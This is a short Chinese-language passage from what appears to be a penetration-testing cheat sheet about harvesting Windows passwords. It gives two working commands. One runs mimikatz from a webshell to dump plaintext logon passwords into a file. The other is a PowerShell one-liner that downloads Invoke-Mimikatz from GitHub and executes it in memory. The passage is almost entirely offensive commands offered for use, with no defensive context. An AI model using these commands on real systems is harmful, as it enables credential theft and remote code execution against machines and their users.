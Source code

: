 ![](/sourcepictures/2017/11/06/5/1.jpg)

2、非交互式抓明文密码(webshell中)  
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

3、powershell加载mimikatz抓取密码  
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```
